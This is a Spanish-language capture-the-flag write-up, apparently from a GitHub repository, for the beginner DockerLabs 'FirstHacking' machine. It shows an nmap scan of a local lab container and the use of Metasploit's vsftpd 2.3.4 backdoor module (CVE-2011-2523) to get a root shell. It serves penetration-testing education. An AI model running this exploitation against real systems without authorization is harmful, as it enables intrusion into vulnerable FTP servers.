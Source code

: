 # DockerLabs - FirstHacking

## Información General

- **Nombre del desafío:** FirstHacking
- **Categoría:** Boot2Root
- **Dificultad:** Muy Fácil
- **Fecha:** 20/01/2025
- **Plataforma:** https://dockerlabs.es/

## Descripción del Desafío

El desafío "FirstHacking" de DockerLabs es una máquina diseñada para principiantes en el pentesting, con el objetivo de que realicen su primer CTF.

## Solución

### 1. Despliegue de la máquina

En primer lugar, ejecutaremos el script proporcionado junto con la máquina para desplegar el laboratorio. Nos aparecerá un mensaje informándonos de la IP utilizada por la máquina vulnerable, que es la `172.17.0.2`.

```bash
sudo bash auto_deploy.sh firsthacking.tar
```

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20FirstHacking/assets/DockerLabs%20-%20FirstHacking%20(1).png)

### 2. Análisis de vulnerabilidades

Realizamos un escaneo de puertos utilizando `nmap` para identificar los servicios activos en la máquina objetivo. El escaneo revela que el puerto 21 (FTP) está abierto y funciona en su versión `vsftpd 2.3.4`.

```bash
nmap -T4 -A -v 172.17.0.2
```

- T4: Establece el nivel de velocidad del escaneo en "agresivo", lo que hace que el escaneo sea más rápido pero puede ser más detectable en la red.
- A: Activa la detección de sistema operativo, detección de versiones, escaneo de scripts y traceroute.
- v: Modo verbose (detallado), proporciona más información durante la ejecución del escaneo.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20FirstHacking/assets/DockerLabs%20-%20FirstHacking%20(2).png)

### 3. Explotación

Para explotar esta vulnerabilidad, utilizamos el framework Metasploit. Escribimos `msfconsole` en el terminal y realizamos una búsqueda por el servicio `vsftpd`. Encontramos un exploit que podría servirnos para nuestro cometido.

```bash
msfconsole
search vsftpd
```

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20FirstHacking/assets/DockerLabs%20-%20FirstHacking%20(3).png)

Seleccionamos el módulo `exploit/unix/vsftpd_234_backdoor` y modificamos los parámetros correspondientes. En este caso, configuramos RHOSTS para que tenga la IP de la máquina vulnerable, esto es, `172.17.0.2`. 

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.17.0.2
```

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20FirstHacking/assets/DockerLabs%20-%20FirstHacking%20(4).png)

Finalmente, ejecutamos el exploit con el comando `run`. 

### 4. Resolución

Al finalizar, tendremos acceso a una shell y estaremos dentro de la máquina. Para confirmar nuestros privilegios, ejecutamos:

```bash
whoami
```

La salida confirma que somos el usuario `root`.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20FirstHacking/assets/DockerLabs%20-%20FirstHacking%20(5).png)

## Lecciones Aprendidas

- La importancia de identificar y explotar vulnerabilidades conocidas en servicios desactualizados.
- El uso de herramientas como Metasploit para automatizar la explotación de vulnerabilidades.

## Recursos

- [Información sobre la vulnerabilidad CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)




